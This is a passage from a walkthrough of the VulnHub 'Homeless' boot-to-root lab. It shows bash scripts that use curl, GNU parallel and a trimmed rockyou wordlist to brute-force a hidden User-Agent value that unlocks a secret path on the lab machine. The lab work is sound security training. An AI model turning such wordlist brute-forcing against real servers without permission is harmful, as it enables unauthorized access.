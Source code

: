 
RESP=$(curl -s -A "$UA" $HOST \
       | sed '32!d' \
       | sed -r -e 's/^[ \t]+//' -e 's/\t+.*$//')

if [ "$UA" != "$RESP" ]; then
    echo "[!] Found: \"$UA\" - $RESP"
    die
fi
{% endhighlight %}

On top of that, I wrote `brute.sh`, a wrapper script to feed a wordlist to `check.sh` in parallel, taking advantage of my multi-core Kali Linux VM.

{% highlight bash linenos %}
# cat brute.sh
#!/bin/bash

parallel ./check.sh < $1 >> $2
{% endhighlight %}

Finally, I reduced the size of the "rockyou" list by preserving only alphanumeric characters and splitting the list into sublists of 1000 lines each.

```
# grep -Pao '^[a-zA-Z0-9]+$' rockyou.txt > reducio.txt
# split -a5 reducio.txt -d reducio_
```

I also used `parallel` to run multiple `check.sh` in parallel to max out my CPU like so.

```
# parallel ./brute.sh {} booyah.txt ::: reducio_*
```

After it was finished (in about 21 minutes), the result was recorded in `booyah.txt`.

```
# cat booyah.txt 
[!] Found: "cyberdog" - Nice Cache!.. Go there.. myuploader_priv
```

So, the path to home can be unlocked by supplying a password as long as it contained "cyberdog".

```
# ./check.sh "old school cyberdog"
[!] Found: "old school cyberdog" - Nice Cache!.. Go there.. myuploader_priv
```

On hindsight, the secret backdoor could also be revealed by looking at the `favicon`. The title clearly says "Cyberdog Starting Point", paying a little homage to Cyberdog, an Internet suite of applications, developed by Apple.

![favicon](/assets/images/posts/homeless-walkthrough/favicon.jpg)


[1]: https://www.vulnhub.com/entry/homeless-1,215/
[2]: http://www.creatigon.com/
[3]: https://www.vulnhub.com
[4]: https://www.gnu.org/software/parallel/
[5]: http://php.net/manual/en/language.basic-syntax.phptags.php
[6]: http://php.net/manual/en/language.operators.execution.php
[7]: https://sfrolov.io/2016/09/multiple-md5-collisions
[8]: https://en.wikipedia.org/wiki/Percent-encoding